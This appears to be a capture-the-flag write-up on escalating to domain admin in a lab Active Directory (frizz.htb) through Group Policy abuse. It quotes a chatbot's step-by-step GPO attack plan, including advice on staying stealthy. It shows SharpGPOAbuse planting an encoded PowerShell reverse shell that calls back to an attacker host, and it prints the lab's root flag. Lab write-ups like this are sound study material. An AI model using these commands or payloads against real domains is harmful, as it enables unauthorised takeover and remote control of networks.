

Asked JinYang's Fridge (ChatGPT) what this gives me:
Ah --- perfect. You already have a foothold in **Active Directory** as a user with **Group Policy Creator Owners (GP-CO)** privileges. That's one of the classic **privilege escalation paths** in Windows AD. I'll break it down carefully and step by step.

------------------------------------------------------------------------

## **1. What GP-CO allows**

A user with **Group Policy Creator Owners** privileges can:
- Create and **edit Group Policy Objects (GPOs)**.
- Link GPOs to OUs (Organizational Units).
- By default, GPOs **run as SYSTEM** on domain-joined machines.

**Key:** Any code injected into a GPO will run with **SYSTEM privileges** on the targets affected by that GPO.

## **2. Escalation strategy**

The standard method is **GPO abuse for domain escalation**:
1. **Create a GPO** targeting an OU that contains a **high-privileged machine or admin account**.
2. **Add a startup script or scheduled task** in the GPO that adds your user to **Domain Admins** or a local admin group on a machine.
3. Wait for **Group Policy refresh** (or force it with `gpupdate /force`) for the script to execute.
---
\### **Step-by-step example: adding your user to Domain Admins via GPO**

#### **Step 1: Identify a target OU**

- Usually, admins log on to **Domain Controllers** or **high-value servers**.
- You want a GPO linked to an OU containing machines where the script will run.
  \#### **Step 2: Create a new GPO**

`# Use PowerView or native Windows tools New-GPO -Name "TempAdminGPO"`

#### **Step 3: Add a startup script**

- The script will **add your user to Domain Admins**:
  `net group "Domain Admins" "YOUR_USER" /add /domain`
- This can be a **.bat** or **.ps1** file.
- Add it to the **GPO's Computer Configuration -\> Policies -\> Windows Settings -\> Scripts (Startup/Shutdown) -\> Startup**.
  \#### **Step 4: Link the GPO**
  `New-GPLink -Name "TempAdminGPO" -Target "OU=TargetOU,DC=frizz,DC=htb"`
  \#### **Step 5: Force refresh (optional)**
  `gpupdate /force`
- Or wait for the next GPO refresh (every 90--120 minutes by default).
  \#### **Step 6: Verify**
  `net group "Domain Admins" /domain`
- Your user should now be a **Domain Admin**.

## **3. Alternative: Use tools like SharpGPOAbuse**

- **[SharpGPOAbuse](https://github.com/dafthack/SharpGPOAbuse)** automates this process:

`# PowerShell example Import-Module SharpGPOAbuse.ps1 Invoke-GPOAbuse -Domain YOUR_DOMAIN -User YOUR_USER -TargetOU "OU=TargetOU,DC=frizz,DC=htb"`

- It can automatically create a GPO, inject a payload, and escalate privileges.

------------------------------------------------------------------------

## **4. Important notes**

- You **don't need DC access** to escalate, but you need your user to have **GP-CO privileges on an OU that contains machines your user can affect**.
- Be careful: creating GPOs that modify Domain Admins is **loud** and will be logged in AD.
- A stealthier method is to add a **scheduled task or service** that only affects a specific machine you control.

## Tool for GPO exploitation

https://github.com/FSecureLABS/SharpGPOAbuse

# Privilege escalation

## Generate a new shadow Group Policy Object

on the box as M.SchoolBus
\`New-GPO -Name ShadowGPO -Comment "Nothing to see here" \| New-GPLink -Target "DC=FRIZZ,DC=HTB" -LinkEnabled Yes

<figure>

<figcaption
aria-hidden="true">Pastedimage20250826184329.png</figcaption>
</figure>

Then use sharpGPOabuse to generate a new user, with admin privileges

SharpGPOabuse can also execute scripts on the box, hereunder do a reverse shell.

Article here:
https://medium.com/@tareshsharma17/turning-a-powershell-script-into-an-encoded-command-for-reverse-shells-0bd6b28565e4

### Reverse powershell

Shell here:

Paste into M.Schoolbus shell and execute using sharp gpo abuse

    PS C:\ProgramData> .\sharpgpoabuse.exe --AddComputerTask --GPOName "ShadowGPO" --Author "Shadow" --TaskName "RevShell" --Command "powershell.exe" --Arguments 'powershell -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACcAMQAwAC4AMQAwAC4AMQA0AC4ANwAnACwAIAA0ADQANAA0ACkAOwAjACMAIABjAGgAYQBuAGcAZQAgAHkAbwB1AHIAIABJAFAALwBQAG8AcgB0ACAAYQBjAGMAbwByAGQAaQBuAGcAbAB5AAoAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsACgBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AAoAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQAgAHsACgAgACAAIAAgACQAZABhAHQAYQAgAD0AIAAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABpACkAOwAKACAAIAAgACAAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABJAG4AdgBvAGsAZQAtAEUAeABwAHIAZQBzAHMAaQBvAG4AIAAtAEMAbwBtAG0AYQBuAGQAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAKQA7AAoAIAAgACAAIAAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACcAUABTACAAJwAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACcAPgAgACcAOwAKACAAIAAgACAAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7AAoAIAAgACAAIAAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAgADAALAAgACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7AAoAIAAgACAAIAAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQA7AAoAfQAKACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApADsACgA=' 
    [+] Domain = frizz.htb
    [+] Domain Controller = frizzdc.frizz.htb
    [+] Distinguished Name = CN=Policies,CN=System,DC=frizz,DC=htb
    [+] GUID of "ShadowGPO" is: {FD095841-CF51-4291-9CE4-E01CD71D5C4C}
    [+] Creating file \\frizz.htb\SysVol\frizz.htb\Policies\{FD095841-CF51-4291-9CE4-E01CD71D5C4C}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
    [+] versionNumber attribute changed successfully
    [+] The version number in GPT.ini was increased successfully.
    [+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
    [+] Done!

gpupdate, and the shell is active on netcat
\`\`\`
PS C:`\ProgramData`{=tex}\> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.
User Policy update has completed successfully.

PS C:`\ProgramData`{=tex}\> debug1: client_input_channel_req: channel 0 rtype keepalive@openssh.com reply 1
debug1: client_input_channel_req: channel 0 rtype keepalive@openssh.com reply 1
debug1: client_input_channel_req: channel 0 rtype keepalive@openssh.com reply 1
\`\`\`

Flag on administrator desktop:

    Kerberos support for Dynamic Access Control on this device has been disabled.
    PS C:\Windows\system32> cd /users
    PS C:\Windows\system32> cd \users
    PS C:\users> ls


        Directory: C:\users


    Mode                 LastWriteTime         Length Name                                                                 
    ----                 -------------         ------ ----                                                                 
    d-----         3/11/2025   3:37 PM                Administrator                                                        
    d-----        10/29/2024   7:27 AM                f.frizzle                                                            
    d-----        10/29/2024   7:31 AM                M.SchoolBus                                                          
    d-r---        10/29/2024   7:13 AM                Public                                                               
    d-----         2/19/2025   1:35 PM                v.frizzle                                                            
    d-----         2/19/2025   1:35 PM                w.Webservice                                                         


    PS C:\users> cd Administrator
    PS C:\users\Administrator> cd Desktop
    PS C:\users\Administrator\Desktop> ls


        Directory: C:\users\Administrator\Desktop


    Mode                 LastWriteTime         Length Name                                                                 
    ----                 -------------         ------ ----                                                                 
    -a----         2/25/2025   2:06 PM           2083 cleanup.ps1                                                          
    -ar---         8/25/2025   8:51 PM             34 root.txt                                                             


    PS C:\users\Administrator\Desktop> type root.txt
    9731fb4769963595a390d17e2717e5ac
    PS C:\users\Administrator\Desktop> 
